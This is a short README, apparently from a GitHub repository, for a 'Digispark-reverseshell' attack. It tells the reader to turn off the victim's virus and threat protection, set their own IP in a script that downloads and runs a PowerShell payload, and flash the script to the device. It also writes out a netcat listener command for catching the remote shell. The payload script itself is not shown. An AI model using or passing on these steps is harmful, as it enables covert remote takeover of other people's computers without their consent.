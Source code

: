 # Digispark-reverseshell
how to create a revershell with digispark ,
in the place of given ip in line change it to your ip , 
turn of the virus and threat protection in victims pc .
This script downloads and executes a powershell script efectively opening up a reverse shell in less than 30 seconds. 
// This script credits to Ethical Hacking youtube channel -- https://www.youtube.com/channel/UCYujGFwVKJbiweT0kd6CwLg
// This script contains ip address of 172.17.45.102 , change it to the hackers ip
// 87 behind the ip is the port . You can change it to your desire in both the script here and the hackers opening port
// enter the above command as root user in linux ---  stty raw -echo; (stty size; cat) | nc -lvnp 87 -s 172.28.131.38  --- (-s here is ip ) behind -lvnp is the port 
upload this script  in arduno 
